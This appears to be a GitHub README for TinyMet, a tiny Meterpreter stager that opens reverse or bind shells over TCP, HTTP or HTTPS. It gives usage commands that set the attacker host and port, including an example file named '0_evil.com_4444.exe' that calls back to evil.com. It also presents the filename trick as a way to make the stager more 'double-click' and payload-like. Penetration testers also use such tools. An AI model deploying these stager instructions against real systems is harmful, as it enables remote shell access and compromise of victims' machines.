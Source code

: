 TinyMet
=======
TinyMet is a tiny “4.5 kilobytes” flexible meterpreter stager, which supports multiple meterpreter transports, setting LPORT and LHOST during runtime.

Transport, LPORT and LHOST are set during runtime through either of the following:
- Command line arguments.
- Naming the .exe file in a special way. 

What's new in v0.2:
-------------------
- Now tinymet can parse the Transport, LPORT and LHOST from its own filename through separating them by underscore
-   Example: "0_evil.com_4444.exe" will use reverse_tcp, LHOST=evil.com, LPORT=4444 
- This makes tinymet more (double-click/payload-like/argument-less) friendly.

----

Available transports are as follows:
- 0: reverse_tcp
- 1: reverse_http
- 2: reverse_https
- 3: bind_tcp

<strong>Usage#1:</strong>
```
tinymet.exe TRANSPORT LHOST LPORT

Example:
"tinymet.exe 2 host.com 443" Will use reverse_https and connect to host.com:443
```

<strong>Usage#2:</strong> name the file using the folowing convention and run without args:
```
TRANSPORT_LHOST_LPORT.exe

Example:
Setting the filename to "2_host.com_443.exe" and running it without args will do exactly the same as Example#1.
```

